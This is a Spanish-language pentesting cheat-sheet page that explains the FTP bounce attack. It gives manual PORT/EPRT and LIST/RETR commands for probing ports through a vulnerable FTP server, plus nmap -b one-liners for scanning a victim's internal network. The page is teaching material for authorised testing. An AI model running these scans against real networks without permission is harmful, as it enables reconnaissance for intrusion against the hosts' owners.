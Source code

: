 ```yaml
---
description: >-
  Explotar el FTP Bounce Attack para escanear puertos a través de una conexión
  FTP
---
```


# FTP BOUNCE ATTACK - ESCANEO

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp/ftp-bounce-attack" %}

## MANUAL

1. Conectar con la FTP vulnerable.
2. Utilizar **PORT** o **EPRT** (solo unos de ellos) para hacer al servidor establecer una conexión con la `<IP:PUERTO>` que se quiere escanear:\
   `PORT 172,32,80,80,0,8080`\
   `EPRT |2|172.32.80.80|8080|`
3. Utilizar **LIST**. Esto mandará a la conexión `<IP:PUERTO>` la lista de archivos en la carpeta actual del FTP y espera respuesta: \
   `150 File status okay` Esto quiere decir que el puerto está **abierto**.\
   `425 No connection established` Esto quiere decir que el puerto está **cerrado**.
4. En lugar de **LIST** se puede utilizar **RETR** /file/in/ftp y esperar una **respuesta similar** a la de LIST.

Ejemplo utilizando **PORT** (Puerto 8080 abierto / Puerto 7777 cerrado):

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Ejemplo con **EPRT** (Puerto 8080 abierto / Puerto 7777 cerrado):

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Ejemplo con **RETR** en vez de LIST:

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## NMAP

```
nmap -b <name>:<pass>@<ftp_server> <victim>
nmap -Pn -v -p 21,80 -b ftp:ftp@10.2.1.5 127.0.0.1 #Scan ports 21,80 of the FTP
nmap -v -p 21,22,445,80,443 -b ftp:ftp@10.2.1.5 192.168.0.1/24 #Scan the internal network (of the FTP) ports 21,22,445,80,443
```
